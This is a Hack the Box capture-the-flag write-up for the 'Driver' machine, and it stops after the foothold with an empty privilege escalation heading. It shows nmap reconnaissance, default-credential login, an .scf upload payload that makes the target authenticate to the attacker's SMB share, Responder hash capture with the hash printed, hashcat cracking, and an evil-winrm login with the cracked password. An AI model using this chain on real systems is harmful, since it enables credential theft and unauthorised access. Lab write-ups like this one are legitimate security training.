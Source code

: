 ```yaml
---
title: HtB Driver
author: istify
date: 2022-02-27
category: Hack the Box
layout: post
---
```


# Hack the Box Driver Writeup
Driver was an easy Windows box from Hack the Box created by MrR3boot.
## Recon
I started by doing an nmap scan of the box:
```
sudo nmap -sS -p- 10.10.11.106
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-27 06:51 EST
Nmap scan report for 10.10.11.106
Host is up (0.033s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 105.22 seconds
```

I then looked at the http server first. You get prompted for basic auth credentials, but `admin`/`admin` works and gives us access to a Website called "MFP Firmaware Update Center". 

## Foothold
The most interesting part of the web page is a file upload under the "Firmware Updates" tab. I tried around with this upload for a bit and uploaded e.g. executables, as the site claims these should be tested. However after a time I gave up on this. As this is a Windows box an other option would be to trigger an NTLM connection using the file upload. I saw something similar on HtB in the past with an SQL injection, that you could exploit to get an NTLM connection.

We can trigger an NTLM connection in this case by uploading an `.scf` file. There is a blog post on [pentesterlab](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) about this. First I started responder using:
```
sudo responder -I tun0 --lm
```
Then I created an `.scf` file and uploaded it. The file I created looked as follows:
```
[Shell]
Command=2
IconFile=\\10.10.14.8\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```
This gave me a hash:
```
[SMB] NTLMv2 Hash     : tony::DRIVER:3cf88c22c2b5dfe0:75CF7454B42FD9A156C2525353940DFF:010100000000000087E8256E9326D8017C77361926092FA000000000020000000000000000000000
```
Sadly this is no NetNTLMv1 Hash, however I was able to crack it using hashcat as the password was contained in rockyou.txt:
```
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```
As can be seen in the nmap scan, winrm is active on the box. So I used the cracked password with evil-winrm to get access to the machine:
```
evil-winrm -u tony -p liltony -i 10.10.11.106
```
At this point I got access to the user flag.

## Privilege escalation 


